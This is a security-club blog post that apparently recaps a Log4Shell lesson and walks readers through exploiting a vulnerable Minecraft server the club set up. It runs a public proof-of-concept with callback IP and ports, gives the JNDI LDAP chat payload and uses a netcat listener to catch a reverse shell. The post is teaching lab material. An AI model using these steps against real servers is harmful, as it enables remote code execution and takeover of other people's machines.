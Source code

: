 ```yaml
---
layout: post
title:  "minecraft log4j"
date:   2021-12-20
categories: linux
---
```


Last meeting we went over an overview of vulnerability research, the recent log4j vulnerability, and finally some more Linux stuff. [Lecture here](https://docs.google.com/presentation/d/1zs27obk0Jh3cFwKoTMSiTXPrv8aRMWUKbQ1BLbzpr14/edit).

More interestingly though, instead of doing challenges individually we set up a live Minecraft 1.8 server that was vulnerable, and we "took over" the blairsec server as `minecraftsteve123`. These are the instructions to replicate what we did, if you want to try yourself.

First, get two servers with static IPs. You can rent servers from AWS or DigitalOcean or other providers. One will host the actual Minecraft server, and one will be where we host our malware and wait for a shell on the first server.

On the first server, get a vulnerable Minecraft and Java version. Use Java version `8u20`, downloaded from [here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). Then, download the minecraft server jarfile from [here](https://www.minecraft.net/en-us/download/server). You can start the server with `java -Xmx1024M -Xms1024M -jar server.jar nogui`.

Finally, make sure your server's TCP port 25565 is allowed by your firewall if you have one, as that's the port that Minecraft uses. Also make sure your Virtual Private Server host firewall allows TCP on 25565 (for example, AWS has their own firewall thing in their dashboard).

Now you should be able to connect to your own server with your Minecraft client.

Next, switch to your second server. This is where our malware will live. Clone the POC repository from [github](https://github.com/kozmer/log4j-shell-poc), and download the same Java version you used to run the Minecraft server (`8u20`).

Then, just run `python3 poc.py --userip <second server IP> --webport 8080 --lport 9001`. This starts two listeners on your server, an HTTP listener running on 8080 and a listener on 1389. It also tells the malware how to get back to your second server - through port 9001. Make sure your second server's firewall allows those.

You should get an output similar to:
```text
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://xxx.xxx.xxx.xxx:1389/a}
[+] Starting Webserver on port 8080 http://0.0.0.0:8080

Listening on 0.0.0.0:1389
```

Now, start a listener on your second server with `nc -lnvp 9001`. This listens for connections on port 9001 that our malware will make once it's been run by the Minecraft server.

With all that setup, you should be able to type what the POC script tells you to send in Minecraft chat. The Minecraft server will log that chat message, causing an LDAP lookup, causing our malware to be downloaded and run, and a connection with a shell to be sent to our second server on port 9001.

On our second server, once you get a "Connection received from ...", you have a shell. Type `ls` to verify it works, and `whoami` to see who you are impersonating. :o


MCPS is pulling a very cool gamer move on us and cancelling after school activities. So not sure when we will meet next. Mrs. Hallisey is supposed to be back when winter break ends, at least!

So see you whenever I see you, I guess. Maybe we will have an informal meeting on Discord to play some secure Minecraft or something over break.

~ josh
